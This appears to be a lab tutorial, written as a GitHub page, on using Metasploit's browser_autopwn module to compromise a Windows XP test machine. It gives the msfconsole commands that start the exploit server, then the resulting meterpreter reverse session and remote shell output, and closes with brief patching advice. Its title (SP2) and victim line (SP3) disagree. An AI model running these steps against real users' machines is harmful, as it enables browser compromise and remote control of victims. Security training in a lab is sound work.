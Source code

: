 Metasploit Browser Autopwn – Windows XP SP2
**Attacker:** Kali Linux<br>
**Victim:** Windows XP SP3 (Java 6u25, IE6)<br>
<br>
##Step 1 – Starting the Browser Autopwn Server
Run msfconsole, load the browser_autopwn module and set all required options.<br>
<code>
<div style="background-color: black; color: white; padding: 20px;">
<font color="silver">root@kali:~$</font> <b>msfconsole</b><br>
<font color="silver">msf ></font> <b>use auxiliary/server/browser_autopwn</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set LHOST 192.168.1.12</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set SRVPORT 80</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set URIPATH /</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>run</b><br>
<br>
<font color="silver">[*] Starting exploit modules on host 192.168.1.12...</font><br>
<font color="silver">[*] Server started.</font>
</div>
</code>
The Browser Autopwn Server is now running and waiting for victims to browse to the url http://192.168.1.12<br>
##Step 2 – Pwning the Victim
On your Windows XP test machine (victim), browse to http://192.168.1.12.<br>
This will trigger the browser_autopwn module to serve the appropriate exploit and launch a meterpreter session.<br>
<code>
<div style="background-color: black; color: white; padding: 20px;">
<font color="silver">[*] Meterpreter session 1 opened (192.168.1.12:7777 -> </font><br>
<font color="silver">192.168.1.13:1045) at 2015-07-25 05:08:06 -0400</font><br>
<font color="silver">...</font><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font><b> sessions -i 1</b><br>
<font color="silver">[*] Starting interaction with 1...meterpreter ></font><b> shell</b><br>
<font color="silver">Microsoft Windows XP [Version 5.1.2600]</font><br>
<font color="silver">(C) Copyright 1985-2001 Microsoft Corp.C:\Documents and Settings\IEUser\Desktop></font><b>echo %USERNAME%</b><br>
<font color="silver">Victim</font><br>
<br>
<font color="silver">C:\Documents and Settings\IEUser\Desktop></font><b>ipconfig</b><br>
<font color="silver">Windows IP Configuration</font><br>
<br>
<font color="silver">Ethernet adapter Local Area Connection:</font><br>
<br>
<font color="silver">Connection-specific DNS Suffix . : Home</font><br>
<font color="silver">IP Address. . . . . . . . . . . . : 192.168.1.13</font><br>
<font color="silver">Subnet Mask . . . . . . . . . . . : 255.255.255.0</font><br>
<font color="silver">Default Gateway . . . . . . . . . : 192.168.1.1</font><br>
<br>
<font color="silver">C:\Documents and Settings\IEUser\Desktop></font><br>
</div>
</code>
You now have shell access to the Windows XP SP3 Victim with the same access as the user who navigated to the exploit url.<br>
##Solution
Keep your software fully updated (e.g. Windows, Web Browsers, Java, etc…) and uninstall unused applications.

Tags: metasploit
